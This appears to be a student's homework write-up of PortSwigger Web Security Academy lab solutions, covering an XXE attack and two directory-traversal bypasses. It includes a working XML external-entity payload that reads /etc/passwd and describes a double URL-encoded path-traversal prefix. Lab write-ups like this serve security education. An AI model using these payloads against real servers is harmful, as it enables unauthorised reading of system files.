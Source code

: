 # HOMEWORK 7. Attack to server. Part 1

## Task 1. XXE attack

The solution of the [lab](https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files) is presented below:

![xxe](xxe.png)

The malicious payload allowed to get content of `/etc/passwd`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```

## Task 2. Directory traversal

### Part 1

The solution of the [lab](https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass) is presented below:

![dir-traversal-1](dir-traversal-1.png)

The application blocks traversal sequences but treats the supplied filename as being relative to a default working directory.

### Part 2

The solution of the [lab](https://portswigger.net/web-security/file-path-traversal/lab-superfluous-url-decode) is presented below:

![dir-traversal-2](dir-traversal-2.png)

The path prefix `../../../` is URL-encoded twice
